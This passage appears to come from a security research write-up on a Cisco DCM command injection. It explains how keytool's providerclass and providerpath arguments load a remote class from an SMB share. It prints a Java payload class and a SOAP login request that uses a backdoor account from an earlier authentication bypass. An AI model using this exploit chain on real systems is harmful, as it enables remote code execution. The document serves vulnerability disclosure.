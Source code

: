 We can see at line *[10908]* that a string called `cmd` is built using the `certFile` string from an attacker supplied SOAP parameter. At line *[10912]* the `cmd` string is used in a call to `Runtime.getRuntime().exec()` thus, triggering command injection!

The complete command for the injection looks like this: `C:\Program Files\Cisco Systems\dcm\java\jre1.8\bin\keytool.exe -importcert -trustcacerts -keystore C:\Program Files\Cisco Systems\dcm\fm\conf\cert\fmtrust.jks -file <attacker controlled>`

If you have ever tried to exploit command injection in Java via `Runtime.getRuntime().exec()` API, you will know that you are limited to the binary being executed.

So for example if the injection was in `cmd.exe` like this: `cmd.exe /c "C:\Program Files\Cisco Systems\dcm\java\jre1.8\bin\keytool.exe -importcert -trustcacerts -keystore C:\Program Files\Cisco Systems\dcm\fm\conf\cert\fmtrust.jks -file <attacker controlled>"` then we could have just done `&&calc.exe` and call it a day.

But we are in the context of `keytool.exe`, so we can really only inject into *its* arguments. As it [turns out](https://docs.oracle.com/en/java/javase/11/tools/keytool.html), we can use the `providerclass` and `providerpath` arguments to load a remote Java class from an SMB share and gain remote code execution! All we need to do is have some code inside of the provided classes static initializer.

```java
import java.io.*;
public class Si{
    static{
        try{
            Runtime rt = Runtime.getRuntime();
            Process proc = rt.exec("calc");
        }catch (IOException e){}
    }
}
```

Keep in mind, our target uses version *Java 1.8u201* so we need to compile the class with the same major version! Once we have done that, we can login to the `/LogonWSService/LogonWS` endpoint with the backdoor account we created from our [authentication bypass](#trustedclienttokenvalidator-authentication-bypass-vulnerability).

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ep="http://ep.jaxws.dcbu.cisco.com/">
   <soapenv:Header/>
   <soapenv:Body>
      <ep:requestToken>
         <username>hacker</username>
         <password>Hacked123</password>
         <expiration>100000</expiration>
      </ep:requestToken>
   </soapenv:Body>
</soapenv:Envelope>
```

The server responds with a token.

```xml
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><ns1:requestTokenResponse xmlns:ns1="http://ep.jaxws.dcbu.cisco.com/"><return>xWPX64FmO4F4AfCSjjV1U5kwTMgS3OTgkjf8829Bi+o=</return></ns1:requestTokenResponse></soap:Body></soap:Envelope>
```
